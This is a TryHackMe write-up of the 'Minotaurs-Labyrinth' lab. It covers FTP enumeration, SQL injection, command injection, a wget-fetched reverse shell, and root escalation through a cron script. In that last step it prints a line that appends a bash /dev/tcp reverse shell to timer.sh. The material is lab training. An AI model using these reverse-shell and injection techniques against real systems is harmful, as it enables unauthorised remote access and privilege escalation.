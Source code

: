 ```yaml
---
title: Minotaurs-Labyrinth TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/2.png)

## Enumeration
In the nmap, we see that there is an *FTP* that can be accessed anonymously, we mount the ftp in our kali and list the first flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/14.png)

We found the website, tried default credentials, but nothing.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/3.png)

We reviewed the source code, found a few comments that might be useful (or fake). We are interested in the "**login.js**" file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/4.png)

#### Content of login.js file

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/5.png)

## Exploitation
We have a comment where comes the password of the user "**Daedalus**", we make the substitution of the arrays and we obtain the credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/6.png)

We check that the site is vulnerable to SQL Injection (Time-based).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/8.png)

#### We obtain databases
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/9.png)

#### We obtain tables
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/10.png)

#### We obtain People columns
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/11.png)

We obtain the flat password using the hash.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/12.png)

We access with the administrator credentials and find a flag.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/13.png)

We find the secret section, we see that we can execute the **ECHO** command from this **PHP** application.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/15.png)

#### Testing
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/16.png)

We tried to bypass it with `command`.

#### PoC
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/17.png)

#### Read /etc/passwd
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/18.png)

#### Reverse shell
We create a file with our reverse shell "*m3.sh*", download it with "**wget**" on the victim machine, give it execution permissions and execute it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/19.png)

#### Executing file m3.sh

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/20.png)

We check the version of python installed and configure the terminal to have a more interactive session.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/21.png)

We are looking for the location of the remaining flags.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/22.png)

#### Read user.txt file

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/23.png)

## Privilege Escalation
We see the following folder which is not common on a Linux system. Inside, there is a file with a script, it may be running from time to time.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/25.png)

We download **pspy64**, run it and see how the user "*root (UID=0)*" is running the script every so often.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/27.png)

We add the following line to the file "**timer.sh**" to get a shell with the user that executes the file.

```bash
echo "bash -i >& /dev/tcp/XX.XX.XX.XX/555 0>&1" >> timer.sh
```

We wait a few minutes and we will get a shell as root and read the flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/26.png)




